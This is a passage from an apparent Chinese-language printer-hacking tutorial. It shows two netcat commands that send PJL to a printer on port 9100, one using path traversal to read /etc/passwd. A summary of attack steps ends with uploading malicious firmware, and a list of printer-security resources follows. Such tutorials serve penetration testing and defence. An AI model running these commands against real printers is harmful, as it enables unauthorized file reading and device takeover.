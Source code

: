 

### 手动进行PJL注入

```c
echo "@PJL FSUPLOAD FORMAT:BINARY NAME="../../etc/passwd" OFFSET=0 SIZE=648" | nc -v -v 192.168.1.108 9100
//如果成功就会返回 */etc/passwd* 文件信息
```

```c
echo "@PJL INFO ID" | nc -v -v 192.168.1.108 9100
//如果成功，就会显示打印机设备信息
```

## 总结

- 找到进入系统的方式
- 检查使用的打印机语言，并尝试代码注入
- 尝试从Web界面入侵到文件系统
- 如果支持更新，就上传自己创建的恶意固件更新包

## 资源

- LPD RFC:https://www.ietf.org/rfc/rfc1179.txt
- SMB RFC1:http://www.icir.org/gregor/tools/ms-smb-protocols.html
- IPP RFC:https://www.ietf.org/wg/concluded/ipp.html
- How Network Printing Works1:https://technet.microsoft.com/en-us/library/cc783789(v=ws.10).aspx
-  PostScript:https://www.adobe.com/products/postscript/pdfs/PLRM.pdf
- BeEF:http://beefproject.com/
- Praeda:https://github.com/percx/Praeda
- PRET14:https://github.com/RUB-NDS/PRET
- Linux Exploit Suggester3:https://github.com/PenturaLabs/Linux_Exploit_Suggester
- Printer Security Test Cheat Sheet3:http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
- Hacking Printers Wiki1: http://hacking-printers.net/wiki/index.php/Main_Page

- https://www.contextis.com/blog/hacking-canon-pixma-printers-doomed-encryption
- http://foofus.net/goons/percx/Xerox_hack.pdf
- http://www.techradar.com/news/thousands-of-printers-hacked-across-the-globe-after-critical-flaw-exposed
- https://helpnetsecurity.com/dl/articles/CrossSitePrinting.pdf
